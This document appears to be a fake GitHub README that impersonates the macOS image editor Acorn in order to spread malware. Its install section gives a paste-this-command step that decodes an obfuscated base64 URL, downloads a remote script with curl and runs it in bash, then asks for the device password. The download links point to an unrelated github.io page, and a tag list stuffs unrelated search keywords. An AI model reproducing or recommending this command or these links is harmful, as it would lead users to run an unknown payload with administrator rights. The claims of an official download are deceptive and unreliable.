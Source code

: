 # 🖼️ Acorn — Powerful Image Editor for macOS

**Acorn** is a lightweight yet powerful image editor designed exclusively for macOS. It offers intuitive tools for photo editing, vector drawing, and non-destructive filters, wrapped in a clean and responsive interface.

Acorn is perfect for creatives and professionals who need a fast, reliable, and affordable image editor optimized for Mac.

---

## ✅ Download Acorn for macOS  
[![Download Acorn](https://img.shields.io/badge/Download-Acorn-blueviolet)](https://shuziktobehuman.github.io/huja/Acorn)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 📦 What is Acorn?

Acorn is a user-friendly image editor that combines powerful editing features with macOS-native performance. It supports layers, masks, curves, and blending modes, allowing detailed and creative control over your images without the complexity of heavyweight software.

---

## ✨ Features

- 🖌️ **Non-destructive filters and effects**  
- 🧩 Layer-based editing with blending modes and masks  
- ✏️ Vector drawing tools including shapes, paths, and text  
- 🔍 Pixel-accurate editing with zoom and guides  
- 🖥️ Full macOS integration and support for Retina displays  
- 🌙 Dark mode interface and Apple Silicon optimized  

---

## 💡 Why Use Acorn?

- ⚡ Fast and lightweight alternative to complex image editors  
- 🎨 Combines bitmap and vector tools in one app  
- 🛠️ Ideal for photo retouching, graphic design, and digital painting  
- 💻 Seamless macOS experience with native UI and performance  
- 💰 Affordable with a one-time purchase  

---

[![Download Acorn](https://img.shields.io/badge/Download-Acorn-blueviolet)](https://shuziktobehuman.github.io/huja/Acorn)

---

## 🖼️ Preview

![Acorn Screenshot 1](https://s3.amazonaws.com/flyingmeat/acorn8/ssweb_export.jpeg)  
![Acorn Screenshot 2](https://s3.amazonaws.com/flyingmeat/acorn8/ssfilters.jpeg)

---

## 📌 Tags

acorn, acorns company, acorn cost, acorn in, acorns near me,  
acorns reddit, acorn savings, acorn trading, acorn website,  
acorn sales company, acorn securities, gold acorns, acorn for sale,  
acorn promotion, acorn management, acorns promotion, acorn business,  
acorn price, columbia acorn, acorn ltd, acorn com,  
acorn trustpilot, acorns ashton kutcher, ashton kutcher acorns,  
walter wemple cruttenden iii, acorn mac, acorn mac download
